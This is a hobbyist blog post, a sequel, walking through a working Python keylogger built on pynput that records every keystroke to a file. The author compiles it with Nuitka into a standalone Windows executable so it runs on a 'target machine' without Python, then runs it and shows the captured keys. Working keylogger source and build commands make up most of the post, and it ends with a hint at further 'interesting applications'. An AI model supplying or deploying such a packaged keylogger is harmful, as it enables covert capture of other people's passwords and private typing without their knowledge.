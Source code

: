 ```yaml
---
title: "Making a Keylogger (part 2)"
date: 2022-04-17
categories: Projects
---
```


This post is a sequel to [this one](https://blasterman.github.io/blastermans-base/projects/keylogger/) that I wrote prior on making a simple keylogger in Python. Earlier, I wrote that I would like to try out using a keylogger written in Powershell or something similar that utilizes a language a fresh Windows installation would be able to run without any extra binaries or libraries. However, thanks to David Bombal and his video, I’ve discovered that there is a way of merging both writing a keylogging script in Python AND allowing said script to run on a Windows machine that doesn’t have Python installed.

In the description for his video, David has a link to a pdf he made that outlines the step-by-step process he took to create an executable of a Python keylogger. It can be found at the following link:

[https://www.dropbox.com/s/tb0w3b02j3l9rid/Installing%20Nuitka.pdf?dl=0](https://www.dropbox.com/s/tb0w3b02j3l9rid/Installing%20Nuitka.pdf?dl=0)

***
The first order of business is to install Nuitka, the program that will convert my Python script to a Windows executable. Since I already have Python on my computer, I can use *pip* to install the correct version of Nuitka for the version of Python I have using *python -m pip install -U nuitka*.

![nuitka install](blastermans-base/assets/images/projects/keylogger2/nuitka-install.png)

Great! Now that it’s installed, let’s make sure it works:

![nuitka version](blastermans-base/assets/images/projects/keylogger2/nuitka-version.png)

👍

***
Now it’s time for the code. Comparing the code that David used against the one I found in the previous post, they’re pretty much identical save for a few missing/different parameters so it’ll function the same as the one I used last time.

```
{
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
}
```

Once saved, I’ll need to run a command in Python that instructs Nuitka to convert my *.py* file to a *.exe*. The command goes like this:

*py -m nuitka--mingw64 <filename>.py --standalone --onefile*

(Make sure to agree to both prompts in the terminal)

![nuitka file creation](blastermans-base/assets/images/projects/keylogger2/nuitka-file-creation.png)

Done!

***

Now that the script has been compiled, it’s time to give it a go by *.\myfile.exe*. I’ll give it some time and come back later to see what the script has recorded.

***

Well, I got a little impatient. Let’s look right now and see what I’ve got:

![captured keys](blastermans-base/assets/images/projects/keylogger2/captured-keys.png)

Heh. It works just like the last one I used! 😁
<br></br>
<br></br>
Much thanks to David for making that video and demonstrating that there is a way to run Python scripts on Windows without needing to have the library already preinstalled on the target machine. This was a good amount of fun. Besides, who knows what interesting applications this will have in the future… 😎
